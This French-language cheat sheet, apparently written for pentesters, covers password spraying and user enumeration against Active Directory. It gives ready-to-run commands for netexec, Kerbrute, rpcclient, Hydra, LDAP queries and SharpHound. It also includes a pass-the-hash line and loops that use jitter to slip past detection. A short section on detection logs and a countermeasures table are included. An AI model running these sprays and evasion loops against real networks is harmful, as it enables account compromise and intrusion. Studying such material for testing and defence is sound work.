

Cette documentation couvre les techniques de Password Spraying et d'énumération dans un environnement Active Directory. Ces méthodes sont étroitement liées aux concepts de **Active Directory Enumeration**, **Kerberos Attacks**, **SMB Enumeration** et **Password Policy Auditing**.

## Password Spraying avec netexec

L'outil **netexec** (successeur de **crackmapexec**) est utilisé pour tester des identifiants sur des cibles SMB.

> [!warning] Attention au seuil de verrouillage
> Le seuil de verrouillage des comptes (**Account Lockout Threshold**) doit être identifié avant toute action : un spray trop agressif peut bloquer les utilisateurs légitimes.

Tester un mot de passe sur une liste d'utilisateurs :

```bash
netexec smb 192.168.1.100 -u userlist.txt -p Welcome1 | grep "[+]"
```

Tester un hash **NTLM** pour une attaque **Pass-the-Hash** :

```bash
netexec smb 192.168.1.0/24 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep "[+]"
```

Lister les utilisateurs d'un domaine :

```bash
netexec smb 192.168.1.100 --users
```

## Password Spraying avec Kerbrute

**Kerbrute** est optimisé pour le spraying **Kerberos**.

> [!tip] Avantage Kerbrute
> Privilégier **Kerbrute** pour le spraying **Kerberos** afin d'éviter de générer des logs d'échec d'authentification SMB.

Tester un mot de passe sur une liste d'utilisateurs :

```bash
kerbrute passwordspray -d example.com --dc 192.168.1.100 userlist.txt Welcome1
```

Énumération des utilisateurs sans authentification :

```bash
kerbrute userenum -d example.com --dc 192.168.1.100 userlist.txt
```

## Password Spraying avec Rpcclient

Utilisation d'un one-liner pour tester un mot de passe via **rpcclient** :

```bash
for u in $(cat userlist.txt); do rpcclient -U "$u%Welcome1" -c "getusername;quit" 192.168.1.100 | grep "Authority"; done
```

## Password Spraying avec Hydra

**Hydra** permet de tester des protocoles variés, dont SMB.

Tester un mot de passe sur une liste d'utilisateurs :

```bash
hydra -L userlist.txt -p Welcome1 smb://192.168.1.100
```

Tester une liste de mots de passe sur un utilisateur spécifique :

```bash
hydra -l admin -P passwords.txt smb://192.168.1.100
```

## Enumération des Utilisateurs

Avant de lancer un spraying, l'énumération est une étape cruciale pour identifier les cibles.

Lister les utilisateurs via **LDAP** :

```bash
ldapsearch -x -h 192.168.1.100 -b "DC=example,DC=com" "(objectclass=user)" | grep "sAMAccountName" | cut -d " " -f2
```

Lister les utilisateurs en **SMB** NULL Session :

```bash
enum4linux -U 192.168.1.100 | grep "user:"
```

Lister les utilisateurs avec **rpcclient** :

```bash
rpcclient -U "" -N 192.168.1.100 -c "enumdomusers"
```

## Utilisation de BloodHound pour identifier les cibles prioritaires

L'utilisation de **BloodHound** permet de cartographier les relations dans l'AD et de cibler les utilisateurs ayant des privilèges élevés (ex: membres du groupe Domain Admins).

```bash
# Exécution du collecteur SharpHound
.\SharpHound.exe -c All --domain example.com
```

Une fois les données importées, utiliser la requête prédéfinie **Find Principals with DCSync Rights** ou **Shortest Paths to Domain Admins** pour prioriser les comptes à tester lors du spraying.

## Vérification de la Politique de Mot de Passe

> [!info] Prérequis
> Toujours vérifier la politique de mot de passe avant de lancer un spray pour ajuster le délai entre les tentatives.

Vérification via **netexec** :

```bash
netexec smb 192.168.1.100 --pass-pol
```

Vérification via **rpcclient** :

```bash
rpcclient -U "" -N 192.168.1.100 -c "getdompwinfo"
```

## Gestion du lockout threshold (éviter le blocage des comptes)

Pour éviter de bloquer les comptes, il est impératif de calculer le nombre de tentatives autorisées avant verrouillage. Si le seuil est de 5, effectuez 3 tentatives espacées dans le temps.

```bash
# Exemple de boucle avec pause pour éviter le lockout
for pass in $(cat passwords.txt); do
    netexec smb 192.168.1.100 -u userlist.txt -p $pass
    sleep 300 # Pause de 5 minutes entre chaque mot de passe
done
```

## Techniques de bypass (jitter, sleep)

L'ajout de **jitter** (variation aléatoire du temps de pause) permet de contourner les détections basées sur des intervalles de temps fixes.

```bash
# Exemple de script bash simple avec jitter
while read pass; do
    netexec smb 192.168.1.100 -u userlist.txt -p $pass
    sleep $(( ( RANDOM % 60 ) + 30 )) # Pause aléatoire entre 30 et 90 secondes
done < passwords.txt
```

## Analyse des résultats (tri des comptes compromis)

Une fois le spray terminé, il est nécessaire d'extraire les comptes valides pour la phase suivante.

```bash
# Extraction des comptes valides depuis le log de netexec
grep "[+]" spray_results.txt | awk '{print $4}' | sort -u > compromised_users.txt
```

## Détection des Attaques

> [!danger] Surveillance
> Le spraying est une technique bruyante. Surveiller les logs de sécurité (Event IDs 4625) sur le contrôleur de domaine est indispensable.

Analyser les logs SSH pour détecter une attaque brute-force :

```bash
grep "Failed password" /var/log/auth.log | awk '{print $11}' | sort | uniq -c | sort -nr
```

Lister les tentatives de connexion en **SMB** :

```bash
journalctl -u smbd | grep "authentication failure"
```

Surveiller les logs pour **Kerberos** :

```bash
grep "pre-authentication failed" /var/log/auth.log
```

## Contre-mesures

| Mesure | Description |
| :--- | :--- |
| MFA | Activer l'authentification Multi-Factor |
| Segmentation | Restreindre l'accès aux services critiques (SMB, LDAP, RDP, VPN) |
| Lockout Policy | Configurer une politique de verrouillage après échecs répétés |
| Fail2Ban | Utiliser Fail2Ban pour bloquer les attaques répétées |
| Monitoring | Auditer les logs et implémenter des alertes sur les échecs massifs |